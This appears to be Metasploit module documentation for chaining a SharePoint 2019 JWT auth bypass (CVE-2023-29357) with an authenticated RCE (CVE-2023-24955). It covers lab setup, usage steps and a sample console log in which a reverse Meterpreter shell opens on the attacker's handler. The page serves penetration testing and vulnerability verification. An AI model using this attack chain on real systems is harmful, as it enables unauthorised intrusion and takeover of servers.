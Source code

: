 ## Vulnerable Application
This module exploits two vulnerabilities in Sharepoint 2019, an auth bypass CVE-2023-29357 which was patched
in June of 2023 and CVE-2023-24955, an RCE which was patched in May of 2023.

The auth bypass allows attackers to impersonate any valid Sharepoint user. This vulnerability stems from the
signature validation check used to verify JSON Web Tokens (JWTs) used for OAuth authentication. If the signing
algorithm of the user-provided JWT is set to none, SharePoint skips the signature validation step due to a logic
flaw in the ReadTokenCore() method.

After impersonating the administrator user, the attacker has access to the Sharepoint API and is able to
exploit CVE-2023-24955. This authenticated RCE vulnerability leverages the impersonated privileged account to
replace the "/BusinessDataMetadataCatalog/BDCMetadata.bdcm" file in the webroot directory with a payload. The
payload is then compiled and executed by Sharepoint allowing attackers to remotely execute commands via the API.

### Setup 
Setup Windows Server 2022  [20348.169.210806-2348.fe_release_svc_refresh_SERVER_EVAL_x64FRE_en-us.iso](https://software-download.microsoft.com/download/sg/20348.169.210806-2348.fe_release_svc_refresh_SERVER_EVAL_x64FRE_en-us.iso).
Change the computer name to "sp1".
In network connections set the IP address of the machine to a static IP on the appropriate interface.
Set the DNS settings - one to the hardcoded address of the machine and the alternate to 8.8.8.8.
Add the AD DS role to the Server and then promote to a domain controller, use all the default settings. Name the domain "domain.local".
Download and install [SQL Server 2022](https://go.microsoft.com/fwlink/?linkid=2215202&clcid=0x409&culture=en-us&country=us) with all default settings.
Download [Sharepoint 2019 image](https://download.microsoft.com/download/C/B/A/CBA01793-1C8A-4671-BE0D-38C9E5BBD0E9/officeserver.img).

Mount the image on the newly configured Domain Controller.
Before installing the prerequisites you must go to Server Manager -> Local Server -> IE Enhanced Security Configuration -> Set to OFF
The prerequisites installer will fail to download prereqs without this.

Run the splash.hta file, then select Install Prerequisites, this will reboot the machine.
Remount the installer and rerun the PrerequisitesInstaller.exe. Once complete for the second time, click finish, this will reboot the machine.
Remount the installer and run setup.exe, this will install all the necessary binaries, this will reboot the machine

The SharePoint Products Configuration Wizard should launch automatically, if not you can launch it from the start menu.
Click next on the Welcome to Sharepoint Products page. It will tell you that it may have to reboot the machine, click Yes.
Select "Create a new server farm", click Next.

Input the following:
Database server: sp1
Database name: SharePoint_Config
Username: DOMAIN\\Administrator
Password: N0tpassword!

Click Next.

Specify Farm Security Settings:
Enter and reenter a passphrase:

Click Next.

Specify Server Role:
Single-Server Farm

Click Next.

Configure SharePoint Central Administration Web Application
No changes here, keep the port number default and keep NTLM selected,

Click Next.

You should now have a vulnerable version of SharePoint 2019 installed.

## Verification Steps

1. Start msfconsole
1. Do: `use sharepoint_dynamic_proxy_generator_auth_bypass_rce`
1. Set the `RHOST`, `LHOST`, and `HOSTNAME` options
1. Run the module
1. Receive a Meterpreter session in the context of the user running the SharePoint application.

## Scenarios
### SharePoint 2019 
```
msf6 exploit(windows/http/sharepoint_dynamic_proxy_generator_auth_bypass_rce) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sharepoint version detected: 16.0.0.10337
[*] Discovered hostname is: sp1
[*] Discovered domain is: DOMAIN
[*] realm: 1a150b01-299a-48a9-afd4-379402fff4de, client_id: 00000003-0000-0ff1-ce00-000000000000
[*] Got Oauth Info: 1a150b01-299a-48a9-afd4-379402fff4de|00000003-0000-0ff1-ce00-000000000000
[*] Lob id is: KLNfH
[*] Successfully impersonated Site Admin: 00000003-0000-0ff1-ce00-000000000000
[+] The target is vulnerable. Authentication was successfully bypassed via CVE-2023-29357 indicating this target is vulnerable to RCE via CVE-2023-24955.
[*] BDCMetadata existed, backing up original data
[+] Payload has been successfully delivered
[*] Sending stage (200774 bytes) to 172.16.199.72
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.72:57806) at 2024-01-19 14:55:44 -0500

meterpreter > getuid
Server username: DOMAIN\Administrator
meterpreter > sysinfo
Computer        : SP1
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : DOMAIN
Logged On Users : 23
Meterpreter     : x64/windows
meterpreter >
```